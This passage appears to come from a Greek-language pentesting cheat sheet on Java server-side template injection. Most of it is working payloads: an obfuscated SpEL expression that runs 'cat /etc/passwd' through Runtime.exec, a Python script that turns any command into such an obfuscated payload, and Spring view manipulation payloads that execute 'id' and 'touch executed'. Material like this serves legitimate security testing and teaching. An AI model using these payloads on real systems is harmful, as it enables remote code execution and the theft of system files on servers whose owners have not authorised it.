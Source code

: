 * Διαβάστε το `/etc/passwd`
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
* Προσαρμοσμένο σενάριο για τη δημιουργία payload
```python
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
# Usage: python3 gen.py "id"

from sys import argv

cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}'

count = 1
for i in converted:
if count == 1:
base_payload += f"(T(java.lang.Character).toString({i}).concat"
count += 1
elif count == len(converted):
base_payload += f"(T(java.lang.Character).toString({i})))"
else:
base_payload += f"(T(java.lang.Character).toString({i})).concat"
count += 1

print(base_payload + end_payload)
```
**Περισσότερες Πληροφορίες**

* [Thymleaf SSTI](https://javamana.com/2021/11/20211121071046977B.html)
* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd)

### Manipulation Άποψης Spring (Java)
```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```
* [https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)
